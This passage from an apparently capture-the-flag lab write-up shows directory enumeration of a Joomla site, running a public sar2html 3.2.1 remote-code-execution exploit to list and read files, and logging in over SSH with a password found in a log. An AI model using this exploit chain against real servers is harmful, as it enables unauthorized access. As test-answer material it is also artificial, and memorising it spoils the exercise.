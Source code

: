 ```
/plugins              (Status: 301) [Size: 317] [--> http://10.10.2.93/joomla/plugins/]  
/templates            (Status: 301) [Size: 319] [--> http://10.10.2.93/joomla/templates/]    
/tests                (Status: 301) [Size: 315] [--> http://10.10.2.93/joomla/tests/]        
/tmp                  (Status: 301) [Size: 313] [--> http://10.10.2.93/joomla/tmp/] 
```
After a painstaking process of going through each of the directories, /_ test/ leads to page with sar2html
A quick search on exploit_db results in Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution.
Saving the exploit and running it:

```
python3 sar2html.py 
Enter The url => http://10.10.2.93/joomla/_test/
Command => ls
HPUX
Linux
SunOS
index.php
log.txt
sar2html
sarFILE
```

## Task 1f

```
log.txt
```

## Task 2

```
Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```
SSH into the machine using basterd:superduperp@$$

```
ssh basterd@$IP -p 55007
```
## Task 2a
